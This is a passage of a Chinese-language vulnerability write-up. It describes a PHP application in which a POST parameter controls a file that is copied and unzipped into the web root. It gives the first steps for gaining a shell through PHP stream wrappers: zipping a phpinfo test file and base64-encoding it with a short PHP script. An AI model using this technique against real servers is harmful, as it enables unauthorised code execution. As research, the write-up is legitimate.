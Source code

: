 [![](assets/1701606448-aaede3130d4529f91767a9c8e4bf610a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135451-7b50f668-8ce9-1.png)

其中`$RemoteFile` 可以由 `$_POST['file']`完全控制，然后通过`copy`复制并重命名，接着直接解压至根目录，简单地来讲，只要我们上传一个压缩的 zip 文件到服务器的任意位置，那么就可以 GetShell，找一个上传点并不难，但是我们当前可是在 PHP 环境下耶？PHP 是世界上最好的语言，怎么可能 GetShell 需要那么麻烦是吧？

如果你了解 php 支持的[支持的协议和封装协议](https://www.php.net/manual/zh/wrappers.php#wrappers)，即我们常说的伪协议，那么这个问题迎刃而解。

[![](assets/1701606448-fbaee9c906c5d06c4f36ccced75b7d9c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135504-8286cfde-8ce9-1.png)

利用该漏洞的步骤如下：

1) 通过 `zip`命令将内容`<?php phpinfo();?>`的`1.php`压缩为 `1.php.zip`

```bash
zip 1.php.zip 1.php
```

2) PHP 写一个 base64 加密的 Binary 文件的 `exp.php`

```bash
<?php

// 读取二进制流
$binaryData = file_get_contents('1.php.zip');

// 转换为 base64 编码字符串
$base64String = base64_encode($binaryData);

// 输出结果
echo $base64String;
```
